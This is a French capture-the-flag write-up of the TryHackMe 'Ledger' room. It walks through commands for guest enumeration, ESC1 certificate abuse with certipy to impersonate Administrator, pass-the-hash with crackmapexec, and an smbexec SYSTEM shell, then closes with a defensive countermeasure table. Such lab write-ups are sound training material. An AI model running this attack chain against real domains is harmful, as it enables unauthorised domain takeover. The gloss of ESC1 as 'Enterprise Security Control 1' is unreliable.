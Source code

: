 
```markdown
# TryHackMe - Ledger – Write-up Complet (FR)

[https://tryhackme.com/room/ledger](https://tryhackme.com/room/ledger)

---

## 🧠 Objectif

Exploiter une machine Windows Active Directory vulnérable (`labyrinth.thm.local`)  
pour obtenir une exécution de commande en tant qu’administrateur de domaine via SMB et NTLM hash.

---

## 🔍 1. Scan et découverte

### Scan nmap

---

### Ajout dans `/etc/hosts` :

```

IPCIBLE labyrinth.thm.local thm.local LABYRINTH

````

- Port 445 (SMB) ouvert : cible un contrôleur de domaine Windows.

---

### Test guest :

```bash
nxc smb labyrinth.thm.local -u 'guest' -p ''
nxc ldap labyrinth.thm.local -u 'guest' -p '' --users
````

On récupère 2 utilisateurs avec le même mot de passe.

---

### Connexion avec un utilisateur valide :

```bash
nxc smb labyrinth.thm.local -u 'SUSANNA_MCKNIGHT' -p '[REDACTED]'
```

Connexion avec Remmina (RDP).
Récupération du flag `user.txt`.

---

## 🧩 2. Credential reuse via NTLM hash

### Active Directory Certificate Services (AD CS)

À l'aide de certipy, nous trouvons un modèle de certificat appelé `ServerAuth` vulnérable à ESC1.

---

### ESC1 (Enterprise Security Control 1)

* Technique d’attaque contre AD CS.
* Permet à un utilisateur de s’auto-délivrer un certificat d’authentification valide pour n’importe quel utilisateur, même un Domain Admin !

---

### Découverte de la vulnérabilité avec certipy :

```bash
certipy-ad find -u 'SUSANNA_MCKNIGHT@thm.local' -p '[REDACTED]' -target labyrinth.thm.local -stdout -vulnerable
```

* Droits d'inscription : `THM.LOCAL\Authenticated Users` peut s'inscrire, ce qui permet de demander le certificat.
* Authentification client EKU : certificat utilisable pour l’authentification auprès d’Active Directory.
* **EnrolleeSuppliesSubject** : vulnérabilité principale, permet de spécifier le sujet du certificat, donc d'usurper n'importe quel compte.

---

### Demande du certificat en se faisant passer pour l'administrateur :

```bash
certipy-ad req -username 'SUSANNA_MCKNIGHT@thm.local' -password '[REDACTED]' \
-ca thm-LABYRINTH-CA -target labyrinth.thm.local \
-template ServerAuth -upn Administrator@thm.local
```

---

### Authentification avec le certificat généré :

```bash
certipy-ad auth -pfx administrator.pfx
```

Un hash NTLM est fourni ou découvert :
`:07d677XXXXXXXXXXXXX322`

---

### Test du hash avec CrackMapExec :

```bash
cme smb labyrinth.thm.local -u Administrator -H 07d677XXXXXXXXXX322 --kdcHost labyrinth.thm.local
```

✔️ Accès confirmé : utilisateur Administrator avec un hash fonctionnel → Pass-the-Hash.

---

## 🚀 3. Exploitation finale

```bash
smbexec -k -hashes :07d677XXXXXXXX52322 THM.LOCAL/Administrator@labyrinth.thm.local
```

✔️ Shell SYSTEM via SMB !
Obtention de `root.txt`.

---

## 🛡️ 4. Bonnes pratiques défensives (Blue Team)

| Problème exploité                                    | Contremesure recommandée                                              |
| ---------------------------------------------------- | --------------------------------------------------------------------- |
| Hash NTLM réutilisable (Pass-the-Hash)               | - Activer LAPS (Local Admin Password Solution)                        |
|                                                      | - Désactiver SMBv1                                                    |
|                                                      | - Kerberos only                                                       |
| Pas de segmentation réseau                           | Isoler les DC, segmenter le réseau AD.                                |
| Aucun journal d’échec (4625)                         | Auditer les logs de sécurité Windows.                                 |
| Pas de détection post-exploitation                   | SIEM avec alertes sur smbexec, psexec, wmiexec                        |
| Accès Admin avec mot de passe connu ou hash statique | Rotation régulière des mots de passe et monitoring des connexions SMB |

---

## ✅ En résumé

* L’accès initial est facilité par un compte avec mot de passe faible.
* La faille principale repose sur ESC1, mal configuré dans l’Active Directory Certificate Services.
* La réutilisation d’un hash NTLM permet une élévation de privilège jusqu’à Administrator.
* Une exécution de commande à distance est réalisée via SMBExec.

---

## 🧠 Outils utilisés

* nxc (NetExec)
* certipy
* crackmapexec
* smbexec.py

---

## 📌 À retenir pour la défense

* 🎯 Surveillez les modèles de certificats.
* 🎯 Ne laissez pas les utilisateurs choisir leurs propres sujets.
* 🎯 Sécurisez SMB et éliminez NTLM si possible.
* 🎯 Déployez la journalisation et les alertes ADCS.

```

---

